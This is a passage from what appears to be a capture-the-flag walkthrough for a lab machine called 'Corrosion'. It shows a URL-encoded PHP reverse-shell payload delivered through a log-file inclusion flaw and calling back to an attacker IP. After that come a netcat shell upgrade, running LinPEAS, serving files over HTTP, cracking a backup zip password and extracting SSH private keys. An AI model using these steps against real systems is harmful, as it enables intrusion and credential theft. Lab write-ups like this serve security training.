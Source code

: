 **Use the encoding after the cmd parameter and visit the site:**

> http://192.168.5.119/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22KALI\_IP%22%2C4242%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

**Once [[_MOCS/Reverse Shells]] is connected using *netcat*, get a better interactive shell:**

```bash
listening on [any] 4242 ...
connect to [192.168.5.10] from (UNKNOWN) [192.168.5.120] 45710
python3.9 -c 'import pty; pty.spawn("/bin/bash")'
www-data@corrosion:/var/www/html/blog-post/archives$ 

Determining whether we're in an interactive shell:
[[ $- == *i* ]] && echo 'Interactive' || echo 'not-interactive'

Determining whether we're in a login shell:
shopt -q login_shell && echo 'login' || echo 'not-login'
```

>[!Optional] 
>Use the [[better shell]] upgrade from netcat with magic method to get a python TTY to a fully interactive shell with tab complete, bash history, working left/right arrow keys, CTRL+C, etc:

**Move to */tmp* directory for write access so you can download and run *[[LinPEAS]]* to discover a world-readable backup file at */var/backups/user\_backup.zip.*:**

```bash
www-data@corrosion:/var/www/html/blog-post/archives$ cd /tmp
www-data@corrosion:/tmp$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
www-data@corrosion:/tmp$ chmod +x linpeas_linux_amd64
www-data@corrosion:/tmp$./linpeas_linux_amd64
...
-rw-r--r-- 1 root root 3285 Jul 30  2021 /var/backups/user_backup.zip
...
```

**Launch a python web server to serve the backup file for downloading:**

```bash
www-data@corrosion:/tmp$ cd /var/backup
www-data@corrosion:/var/backup$ python -m http.server 8080
```

**Download the backup file onto *kali* from *[http://192.168.5.120:8080/user\_backup.zip](http://192.168.5.120:8080/user_backup.zip?ref=rootandbeer.com)***

**Use *[[fcrackzip]]* to crack the zip file password:**

```bash
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt user_backup.zip
PASSWORD FOUND!!!!: pw == !randybaby
```

**Unzip the backup file using the cracked password:**

```bash
└─$ unzip user_backup.zip
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c  
  ```
